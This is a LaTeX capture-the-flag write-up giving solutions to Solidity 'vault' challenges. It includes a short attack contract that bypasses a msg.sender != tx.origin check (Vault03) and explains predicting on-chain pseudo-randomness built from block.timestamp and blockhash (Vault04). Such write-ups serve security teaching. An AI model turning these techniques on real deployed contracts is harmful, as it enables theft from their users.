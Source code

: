 \documentclass[12pt]{article}
\begin{document}
\subsection*{Vault03: Origins}

To breach \texttt{Vault03}, you need to bypass the requirement that \texttt{msg.sender} must not be equal to \texttt{tx.origin}. This means the function must be called from a smart contract rather than directly from an externally owned account (EOA). 

Deploy the \texttt{Vault03Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which in turn calls \texttt{breachVault()}. Since the attack contract acts as an intermediary, \texttt{msg.sender} will be the attack contract, while \texttt{tx.origin} remains the player's address, satisfying the vault's condition. 

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IVault03 {
    function breachVault() external returns (bool);
}

contract Vault03Attack {
    IVault03 public vault;

    constructor(address _vaultAddress) {
        vault = IVault03(_vaultAddress);
    }

    function attack() external returns (bool) {
        return vault.breachVault(); // msg.sender != tx.origin
    }
}
\end{lstlisting}
\end{minipage}

\noindent
This successfully updates \texttt{lastSolver} to the player's address, completing the challenge.

\subsection*{Vault04: Pseudo-Random Trap}

To breach \texttt{Vault04}, you need to provide a correct guess computed using  \texttt{block.timestamp} and \texttt{blockhash(block.number - 1)}. Since both values are accessible during the same transaction, you can compute the correct guess on-chain and submit it immediately. Deploy the \texttt{Vault04Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which computes the guess and calls \texttt{breachVault()} with the correct value.
\end{document}
